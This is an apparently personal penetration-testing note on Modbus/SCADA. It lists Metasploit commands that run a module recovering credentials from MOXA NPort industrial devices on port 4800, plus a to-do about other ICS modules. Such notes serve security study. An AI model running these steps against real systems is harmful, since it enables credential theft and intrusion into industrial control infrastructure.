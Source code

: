 # Modbus

Gather MOXA NPort credentials when authentication is on.

```
msf > use auxiliary/admin/scada/moxa_credentials_recovery

msf auxiliary(admin/scada/moxa_credentials_recovery) > options

msf auxiliary(admin/scada/moxa_credentials_recovery) > set function creds

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rport 4800

msf auxiliary(admin/scada/moxa_credentials_recovery) > set rhosts <target_IP>

msf auxiliary(admin/scada/moxa_credentials_recovery) > run
```

TODO: Go through each and every MSF module related to SCADA/ICS

```
msf > use auxiliary/analyze/modbus_zip
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x01 - Passive Fingerprinting/0xA - Search Engines/Security Engines/Shodan/Use Cases/IoTs/Operation Technology/SCADA (ICS)|Shodan: SCADA]]